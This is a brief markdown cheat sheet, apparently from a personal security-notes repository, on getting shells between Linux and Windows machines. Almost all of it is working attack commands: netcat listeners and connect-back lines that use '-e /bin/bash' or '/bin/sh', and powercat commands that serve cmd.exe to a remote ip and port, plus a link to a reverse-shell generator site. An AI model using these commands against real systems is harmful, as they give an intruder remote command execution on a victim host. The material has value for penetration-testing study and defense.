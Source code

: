 ### Linux to Linux
* nc -lvvp 9999  监听主机
* nc 127.0.0.1 9999 -e /bin/bash | -e /bin/sh | -e /bin/ash
* #cd /bin | grep sh

### Websites for getting shell
https://www.revshells.com/

### Windows to Linux
* powercat -l -p 1080 -e cmd.exe -v (need to download from own server), nc ip port -vv
* nc -l -p port -vv, powercat -c ip -p port -v -e cmd.exe
